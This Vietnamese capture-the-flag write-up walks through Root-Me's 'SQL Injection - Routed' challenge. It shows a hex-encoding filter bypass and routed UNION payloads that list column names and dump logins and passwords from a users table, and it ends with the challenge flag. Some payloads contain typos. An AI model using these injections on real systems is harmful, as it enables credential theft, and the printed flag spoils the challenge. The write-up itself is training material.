

# Write up challenge SQL Injection - Routed

Tác giả:
- **Nguyễn Mỹ Quỳnh**  

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Server/SQL-Injection-Routed) 
 

Truy cập challenge và hực hiện kiểm tra tương tự các bước basic ta phát hiện challenge filter "or" hay 'order by'

Cũng đơn giản thôi ta sẽ chuyển chúng sang hex. Sử dụng trang web chuyển online này 
https://gchq.github.io/CyberChef/

  Như casc bài trước thực hiện để kiểm tra số cột cho phép. Đến `1 order by 3--` thì bị lỗi 

Vậy là database này có 2 cột. Tiếp theo select các table name trong bảng information_schema:

Lấy giá trị từ table users  thực hiện chuyển sang hex tương tự như trên `0' union select ' union select 1,column_name from information_schema.columns where table_name=N'users' -- - -- -`. 

Tìm cột tiếp theo 
`0' union select 1,column_name from information_schema.columns where table_name=N'users' AND columu_name !=N'id' -- - -- -`

Tương tự tìm tiếp cột 

Tiến hành select 2 cột tìm được trong users: `0' union select ' union select 1,concat(login,password) from users -- - -- -`

Tiến hành login 

Submit thành công 

  

> **Flag:** qs89QdAs9A

